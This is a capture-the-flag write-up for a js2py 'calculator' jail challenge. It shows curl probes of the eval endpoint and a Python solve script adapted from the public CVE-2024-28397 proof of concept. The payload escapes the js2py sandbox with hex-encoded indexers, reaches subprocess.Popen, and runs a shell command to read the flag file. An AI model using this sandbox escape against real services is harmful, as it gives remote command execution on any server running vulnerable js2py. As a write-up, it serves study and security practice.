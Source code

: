```yaml
---
created: 2024-07-27T06:35
updated: 2024-07-28T04:22
tags:
  - jail
  - js2py
  - blood
solves: 29
points: 220
description: Copy paste CVE script kiddie still blooded the challenge
---
```


> This is my first calculator ever, and it might have a 0day!!!

## Analysis

### eval

```bash
curl "https://22e4f6ab4aa07cbe99e7f5e8.deadsec.quest/result" ^
  --data-raw '{"inputs":"9 + 9"}'
# {"result":"18","status":"success"}
```

Obviously the server is running some sort of `eval`.

After a few probes, I realized that the server is running python, and executing our code as JS. (weird)

```js
()=>{}
"SyntaxError: Line 1: ArrowFunction is not supported by ECMA 5.1"
```

### `js2py`

A bit of researching later I realized that the server is using `js2py`.

After which I found a CVE for `js2py`, and the [poc script](https://github.com/Marven11/CVE-2024-28397-js2py-Sandbox-Escape/blob/main/poc.py).

I used hex encoded code ran inside of `eval()` block to avoid blacklist.

It worked, but turns out that was unintended when the author DM-ed me, he did not saw `eval` coming.

So I modified the solve script a little to work even after he patched eval.

Just use hex encoded indexers, lol.

Credits to [Marven11/CVE-2024-28397-js2py-Sandbox-Escape: CVE-2024-28397: js2py sandbox escape, bypass pyimport restriction. (github.com)](https://github.com/Marven11/CVE-2024-28397-js2py-Sandbox-Escape)

## Solve Script

```python
import requests


def string_to_hex(s):
    return ''.join(f'\\x{ord(c):02x}' for c in s)


# https://github.com/Marven11/CVE-2024-28397-js2py-Sandbox-Escape/blob/main/poc.py
payload = """
let cmd = "cat ../flag.txt"
let hacked, bymarve, n11
let getattr, obj

hacked = Object.getOwnPropertyNames({})
bymarve = hacked.__getattribute__
n11 = bymarve("__getattribute__")
obj = n11("__class__").__base__
getattr = obj.__getattribute__

function findpopen(o) {
    let result;
    for(let i in o['\\x5F\\x5F\\x73\\x75\\x62\\x63\\x6C\\x61\\x73\\x73\\x65\\x73\\x5F\\x5F']()) {
        let item = o['\\x5F\\x5F\\x73\\x75\\x62\\x63\\x6C\\x61\\x73\\x73\\x65\\x73\\x5F\\x5F']()[i]
        if(item.__module__ == "\\x73\\x75\\x62\\x70\\x72\\x6F\\x63\\x65\\x73\\x73" && item.__name__ == "\\x50\\x6F\\x70\\x65\\x6E") {
            return item
        }
        if(item.__name__ != "type" && (result = findpopen(item))) {
            return result
        }
    }
}

n11 = findpopen(obj)(cmd, -1, null, -1, -1, -1, null, null, true).communicate()
n11
"""
r = requests.post("https://22e4f6ab4aa07cbe99e7f5e8.deadsec.quest/result", json={"inputs": payload})
print(r.text)
```

```flag
DEAD{Js_2_Py_3sc4p3_wr3ck3d_my_b0x}
```
